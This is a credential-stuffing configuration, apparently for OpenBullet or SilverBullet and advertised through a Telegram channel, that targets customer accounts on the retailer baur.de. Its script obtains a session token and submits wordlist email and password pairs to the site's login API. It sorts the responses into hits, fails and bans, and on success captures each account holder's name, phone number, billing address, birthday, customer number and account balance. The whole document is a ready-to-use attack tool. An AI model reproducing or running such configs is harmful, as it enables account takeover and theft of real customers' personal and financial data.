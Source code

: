 {
  "Name": "baur.de",
  "SuggestedBots": 50,
  "MaxCPM": 0,
  "LastModified": "2024-06-02T11:15:06.2022304+02:00",
  "AdditionalInfo": "",
  "RequiredPlugins": [],
  "Author": "@yngzexu",
  "Version": "1.1.4 [SB]",
  "SaveEmptyCaptures": false,
  "ContinueOnCustom": false,
  "SaveHitsToTextFile": false,
  "IgnoreResponseErrors": false,
  "MaxRedirects": 8,
  "NeedsProxies": false,
  "OnlySocks": false,
  "OnlySsl": false,
  "MaxProxyUses": 0,
  "BanProxyAfterGoodStatus": false,
  "BanLoopEvasionOverride": -1,
  "EncodeData": false,
  "AllowedWordlist1": "",
  "AllowedWordlist2": "",
  "DataRules": [],
  "CustomInputs": [
    {
      "Description": "t.me/xconfigking, for more configs!!!",
      "VariableName": "",
      "Id": 1980309755
    }
  ],
  "CaptchaUrl": "",
  "IsBase64": false,
  "FilterList": [],
  "EvaluateMathOCR": false,
  "SecurityProtocol": 0,
  "ForceHeadless": false,
  "AlwaysOpen": false,
  "AlwaysQuit": false,
  "QuitOnBanRetry": false,
  "AcceptInsecureCertificates": true,
  "DisableNotifications": false,
  "DisableImageLoading": false,
  "DefaultProfileDirectory": false,
  "CustomUserAgent": "",
  "RandomUA": false,
  "CustomCMDArgs": "",
  "Title": "baur",
  "IconPath": "Icon\\svbfile.ico",
  "LicenseSource": null,
  "Message": null,
  "MessageColor": "#FFFFFFFF",
  "HitInfoFormat": "[{hit.Type}][{hit.Proxy}] {hit.Data} - [{hit.CapturedString}]",
  "AuthorColor": "#FFFFB266",
  "WordlistColor": "#FFB5C2E1",
  "BotsColor": "#FFA8FFFF",
  "CustomInputColor": "#FFD6C7C7",
  "CPMColor": "#FFFFFFFF",
  "ProgressColor": "#FFAD93E3",
  "HitsColor": "#FF66FF66",
  "CustomColor": "#FFFFB266",
  "ToCheckColor": "#FF7FFFD4",
  "FailsColor": "#FFFF3333",
  "RetriesColor": "#FFFFFF99",
  "OcrRateColor": "#FF4698FD",
  "ProxiesColor": "#FFFFFFFF"
}

[SCRIPT]
#UA FUNCTION GetRandomUA BROWSER Firefox -> VAR "UA" 

#Get REQUEST GET "https://www.baur.de/api/customer/v1/login/anonymous" 
  
  HEADER "Host: www.baur.de" 
  HEADER "User-Agent: <UA>" 
  HEADER "Accept: */*" 
  HEADER "Accept-Language: en-US,en;q=0.5" 
  HEADER "Accept-Encoding: gzip, deflate" 
  HEADER "Referer: https://www.baur.de/mein-konto/uebersicht" 
  HEADER "Sec-Fetch-Dest: empty" 
  HEADER "Sec-Fetch-Mode: cors" 
  HEADER "Sec-Fetch-Site: same-origin" 
  HEADER "Te: trailers" 

#sessionToken PARSE "<SOURCE>" JSON "sessionToken" -> VAR "sessionToken" 

#Login REQUEST POST "https://www.baur.de/api/customer/v1/login" 
  CONTENT "{\"type\":\"password\",\"passwordCredentials\":{\"email\":\"<USER>\",\"password\":\"<PASS>\"},\"useAutologin\":true}" 
  CONTENTTYPE "application/json" 
  HEADER "Host: www.baur.de" 
  HEADER "User-Agent: <UA>" 
  HEADER "Accept: application/json" 
  HEADER "Accept-Language: en-US,en;q=0.5" 
  HEADER "Accept-Encoding: gzip, deflate" 
  HEADER "Referer: https://www.baur.de/mein-konto/uebersicht" 
  HEADER "Ec-Locale: de-DE" 
  HEADER "X-Ec-Token: <sessionToken>" 
  HEADER "Origin: https://www.baur.de" 
  HEADER "Sec-Fetch-Dest: empty" 
  HEADER "Sec-Fetch-Mode: cors" 
  HEADER "Sec-Fetch-Site: same-origin" 
  HEADER "Te: trailers" 

KEYCHECK 
  KEYCHAIN Success OR 
    KEY "sessionToken" 
  KEYCHAIN Failure OR 
    KEY "Deine Zugangsdaten sind leider unvollständig oder fehlerhaft" 
  KEYCHAIN Ban OR 
    KEY "<RESPONSECODE>" EqualTo "503" 

#sessionToken PARSE "<SOURCE>" JSON "sessionToken" -> VAR "sessionToken" 

#phoneNumber PARSE "<SOURCE>" JSON "number" CreateEmpty=FALSE -> CAP "phoneNumber" 

#firstName PARSE "<SOURCE>" JSON "customer.firstName" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "firstName" 

#lastName PARSE "<SOURCE>" JSON "customer.lastName" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "lastName" 

#customerNumber PARSE "<SOURCE>" JSON "businessPartnerNo" CreateEmpty=FALSE -> CAP "customerNumber" 

#g PARSE "<SOURCE>" JSON "gender" CreateEmpty=FALSE -> CAP "g" 

#gender FUNCTION Translate 
  KEY "f" VALUE "Female" 
  KEY "m" VALUE "Male" 
  "<g>" -> CAP "gender" 

#street PARSE "<SOURCE>" JSON "customer.billingAddress.street" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "street" 

#houseNumber PARSE "<SOURCE>" JSON "customer.billingAddress.houseNumber" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "houseNumber" 

#zipCode PARSE "<SOURCE>" JSON "customer.billingAddress.zipCode" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "zipCode" 

#city PARSE "<SOURCE>" JSON "customer.billingAddress.city" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "city" 

#countryCode PARSE "<SOURCE>" JSON "customer.billingAddress.countryCode" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "countryCode" 

#addressName PARSE "<SOURCE>" JSON "customer.billingAddress.addressName" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "addressName" 

#birthDay PARSE "<SOURCE>" JSON "birthDay" CreateEmpty=FALSE -> CAP "birthDay" 

#Get REQUEST GET "https://www.baur.de/api/customer/v1/customer/status" 
  
  HEADER "Host: www.baur.de" 
  HEADER "User-Agent: <UA>" 
  HEADER "Accept: */*" 
  HEADER "Accept-Language: en-US,en;q=0.5" 
  HEADER "Accept-Encoding: gzip, deflate" 
  HEADER "Referer: https://www.baur.de/mein-konto/uebersicht" 
  HEADER "Ec-Locale: de-DE" 
  HEADER "X-Ec-Token: <sessionToken>" 
  HEADER "Sec-Fetch-Dest: empty" 
  HEADER "Sec-Fetch-Mode: cors" 
  HEADER "Sec-Fetch-Site: same-origin" 
  HEADER "Te: trailers" 

#currencyCode PARSE "<SOURCE>" JSON "maturities.currentAccountBalance.currencyCode" JTokenParsing=TRUE -> VAR "currencyCode" 

#balance PARSE "<SOURCE>" JSON "maturities.currentAccountBalance.value" JTokenParsing=TRUE CreateEmpty=FALSE -> CAP "balance" "" " <currencyCode>" 
